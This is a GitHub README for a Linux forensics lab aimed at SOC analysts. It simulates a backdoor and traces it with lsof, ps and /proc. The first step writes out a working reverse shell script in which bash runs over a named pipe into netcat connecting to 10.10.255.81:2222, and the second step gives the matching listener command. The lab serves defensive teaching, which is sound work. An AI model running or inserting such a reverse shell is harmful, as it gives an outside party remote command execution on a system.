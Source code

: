 # Linux Backdoor Detection & Analysis Lab

> A simple yet effective hands-on lab to simulate a reverse shell backdoor in Linux and analyze its behavior using built-in forensic and monitoring commands. This lab is extremely useful for SOC Analysts, Incident Responders, and Blue Team professionals.

---

## Objective

- Simulate a backdoor using `netcat` and a custom bash script.
- Analyze the behavior of the spawned process.
- Investigate open connections, file descriptors, and process-level artifacts.

---

## Environment

- **OS**: Kali Linux (Cloud Installation)
- **Tools Used**: `nc`, `lsof`, `ps`, `/proc`, `strings`

---

## Step-by-Step Walkthrough

### 1. Create the Backdoor Script

```bash
echo -e '#!/bin/bash\nbackpipe=/root/backpipe\nrm -f $backpipe\nmkfifo $backpipe\ncat $backpipe | /bin/bash -i 2>&1 | nc 10.10.255.81 2222 > $backpipe' > backpipe
chmod +x backpipe
./backpipe
```

 ![Backdoor Creation](./01_backdoor_creation.jpeg)

---

### 2. Connect to Backdoor from Attacker

```bash
nc -lvp 2222
```

You now have reverse shell access.

---

### 3. Analyze Network Connections

```bash
lsof -i -P
lsof -p <PID>
```

 ![LSOF Analysis](./02_lsof_analysis.png)

---

### 4. Check Process Status

```bash
ps aux
```

 ![Process Analysis](./03_ps_analysis.png)

---

### 5. Investigate Process Files in `/proc/<pid>/`

```bash
cd /proc/<pid>/
ls
strings ./exe | less
```

 ![Proc Analysis](./04_proc_inspection.png)

---

##  Key Observations

- The `nc` process is tied to an open TCP connection.
- A named FIFO (`backpipe`) is used to send and receive commands.
- Forensic commands like `lsof`, `ps`, and `/proc` provide key visibility.

---

##  Takeaways

- Reverse shells using `nc` are still widely used for persistence and lateral movement.
- Always monitor for suspicious named pipes and outbound `nc` connections.
- Combining system commands gives deep insight without requiring EDR/XDR.

---

##  Author

**Venkata Naveen Kumar Prabhuleti**  
_Masters in Cybersecurity Analytics and Operations @ Penn State_  
 [LinkedIn](https://www.linkedin.com/in/naveen-kumar-9b55a0154/)

---

##  License

This project is open-sourced under the MIT License.